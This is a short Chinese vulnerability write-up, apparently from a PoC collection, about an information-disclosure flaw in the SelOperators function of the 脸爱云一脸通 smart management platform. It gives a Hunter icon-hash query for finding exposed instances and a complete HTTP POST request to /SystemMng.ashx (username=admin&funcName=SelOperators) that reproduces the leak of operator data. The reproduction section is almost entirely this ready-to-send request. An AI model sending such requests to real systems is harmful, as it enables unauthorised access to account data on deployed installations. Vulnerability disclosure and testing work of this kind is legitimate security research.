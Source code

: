 # 脸爱云一脸通智慧管理平台SelOperators存在信息泄露漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">脸爱云一脸通智慧管理平台是一套功能强大，运行稳定，操作简单方便，用户界面美观，轻松统计数据的一脸通系统。无需安装，只需在后台配置即可在浏览器登录。脸爱云一脸通智慧管理平台SelOperators存在信息泄露漏洞。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 脸爱云一脸通智慧管理平台

# 三、资产测绘
+ hunter`web.icon=="4f0be080512ee0b45fc90ff894b6ba60"`
+ 特征

![1700642739314-bb174ac2-c85b-471b-90e8-ed6c02ba5c28.png](./img/d-p_aLeuFN8QvEiC/1700642739314-bb174ac2-c85b-471b-90e8-ed6c02ba5c28-514081.png)

# 四、漏洞复现
```java
POST /SystemMng.ashx HTTP/1.1
Host: 
Content-Length: 36
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=admin&funcName=SelOperators
```

![1714290470519-b752a318-bdc6-4820-8745-c12bef1d956b.png](./img/d-p_aLeuFN8QvEiC/1714290470519-b752a318-bdc6-4820-8745-c12bef1d956b-072385.png)



> 更新: 2024-04-28 15:48:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gg2q9qg8ttmq4azt>